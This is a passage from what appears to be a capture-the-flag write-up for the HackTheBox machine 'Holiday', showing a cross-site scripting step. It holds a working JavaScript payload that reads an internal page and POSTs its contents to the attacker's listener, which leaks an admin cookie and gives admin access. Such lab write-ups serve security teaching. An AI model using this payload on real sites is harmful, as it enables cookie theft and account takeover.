 The above payload doesn't work, but I can tweak it a bit to steal page contents:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open('POST', 'http://10.10.14.18:8000/exfil', true);
exfil.setRequestHeader('Content-Type', 'text/plain');
exfil.send(encodeURIComponent(xhr.responseText));
```

This works in sending me the page contents:

![](../../../.gitbook/assets/htb-holiday-image-16.png)

Within the page content is the cookie I need:

![](../../../.gitbook/assets/htb-holiday-image-17.png)

When this cookie used, I get a new 'Admin' panel:
